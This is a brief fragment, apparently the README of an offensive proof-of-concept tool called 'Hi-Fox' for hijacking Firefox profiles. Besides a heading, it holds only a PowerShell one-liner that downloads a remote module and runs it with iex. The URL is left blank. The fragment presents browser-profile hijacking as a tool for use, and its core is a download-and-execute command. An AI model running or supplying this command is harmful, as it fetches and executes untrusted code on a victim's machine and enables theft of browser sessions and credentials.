 # Hi-Fox
FIREFOX PROFILE HIJACKING POC

REMOTE LOAD POWERSHELL MODULE
iex (new-object net.webclient).downloadstring(‘’)
